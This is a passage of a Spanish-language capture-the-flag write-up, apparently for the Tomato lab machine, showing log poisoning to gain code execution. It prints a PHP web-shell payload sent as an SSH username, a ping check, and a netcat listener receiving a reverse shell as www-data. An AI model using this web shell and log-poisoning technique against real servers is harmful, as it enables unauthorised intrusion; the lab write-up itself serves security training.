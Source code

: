 Si recargas la pagina generamos un log como estamos en una pagina php si inyectamos codigo php la web deberia de autenticarnos

![](/assets/images/vh-writeup-tomato1/Web12.png)

```
❯ ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.65 -p 2211
<?php system($_GET["cmd"]); ?>@192.168.1.65's password: 
Permission denied, please try again.
<?php system($_GET["cmd"]); ?>@192.168.1.65's password: 
Permission denied, please try again.
<?php system($_GET["cmd"]); ?>@192.168.1.65's password: 
```

Y si nos lo inyecto vamos a ver si funciona enviandonos un ping a nuestra ip

![](/assets/images/vh-writeup-tomato1/Web13.png)

Y asi quedaria

![](/assets/images/vh-writeup-tomato1/Web14.png)

```bash
❯ tcpdump -i ens33 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens33, link-type EN10MB (Ethernet), snapshot length 262144 bytes
21:34:30.051151 IP 192.168.1.254 > 192.168.1.67: ICMP echo request, id 1244, seq 0, length 64
21:34:30.051178 IP 192.168.1.67 > 192.168.1.254: ICMP echo reply, id 1244, seq 0, length 64
21:34:30.051851 IP 192.168.1.254 > 192.168.1.65: ICMP echo request, id 1244, seq 0, length 64
21:34:30.052037 IP 192.168.1.65 > 192.168.1.254: ICMP echo reply, id 1244, seq 0, length 64
21:34:31.383520 IP 192.168.1.65 > 192.168.1.67: ICMP echo request, id 1400, seq 1, length 64
21:34:31.383545 IP 192.168.1.67 > 192.168.1.65: ICMP echo reply, id 1400, seq 1, length 64
21:34:31.405143 IP 192.168.1.65 > 192.168.1.67: ICMP echo request, id 1402, seq 1, length 64
21:34:31.405167 IP 192.168.1.67 > 192.168.1.65: ICMP echo reply, id 1402, seq 1, length 64
21:34:31.408934 IP 192.168.1.65 > 192.168.1.67: ICMP echo request, id 1404, seq 1, length 64
21:34:31.408955 IP 192.168.1.67 > 192.168.1.65: ICMP echo reply, id 1404, seq 1, length 64
21:34:31.412021 IP 192.168.1.65 > 192.168.1.67: ICMP echo request, id 1406, seq 1, length 64
21:34:31.412041 IP 192.168.1.67 > 192.168.1.65: ICMP echo reply, id 1406, seq 1, length 64
21:34:31.414543 IP 192.168.1.65 > 192.168.1.67: ICMP echo request, id 1408, seq 1, length 64
21:34:31.414568 IP 192.168.1.67 > 192.168.1.65: ICMP echo reply, id 1408, seq 1, length 64
21:34:31.417348 IP 192.168.1.65 > 192.168.1.67: ICMP echo request, id 1410, seq 1, length 64
```

Tenemos capacidad de ejecucion remota de comandos asi que podemos ganar acceso al sistema ejecutas el mismo `oneliner` de bash para ganar acceso despues de `&cmd=`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.67] from (UNKNOWN) [192.168.1.65] 42844
bash: cannot set terminal process group (869): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/antibot_image/antibots$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```

